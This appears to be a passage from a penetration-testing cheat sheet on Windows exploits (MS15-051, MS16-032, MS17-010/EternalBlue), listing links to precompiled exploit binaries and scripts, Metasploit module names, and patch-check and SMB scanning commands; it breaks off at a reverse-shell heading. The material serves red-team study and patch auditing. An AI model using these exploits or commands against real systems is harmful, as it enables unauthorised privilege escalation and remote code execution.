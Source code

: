 ```powershell
printf("[#] usage: ms15-051 command \n");
printf("[#] eg: ms15-051 \"whoami /all\" \n");

# x32
https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/Win32/ms15-051.exe

# x64
https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/x64/ms15-051.exe

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051
use exploit/windows/local/ms15_051_client_copy_image
```


### MS16-032 - Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)

Check if the patch is installed : `wmic qfe list | findstr "3139914"`

```powershell
Powershell:
https://www.exploit-db.com/exploits/39719/
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

Binary exe : https://github.com/Meatballs1/ms16-032

Metasploit : exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

### MS17-010 (Eternal Blue)

Check the vulnerability with the following nmap script or crackmapexec: `crackmapexec smb 10.10.10.10 -u '' -p '' -d domain -M ms17-010`.

```c
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms17–010 <ip_netblock>
```

Metasploit modules to exploit `EternalRomance/EternalSynergy/EternalChampion`.

```powershell
auxiliary/admin/smb/ms17_010_command          MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
auxiliary/scanner/smb/smb_ms17_010            MS17-010 SMB RCE Detection
exploit/windows/smb/ms17_010_eternalblue      MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
exploit/windows/smb/ms17_010_eternalblue_win8 MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
exploit/windows/smb/ms17_010_psexec           MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```

If you can't use Metasploit and only want a reverse shell.
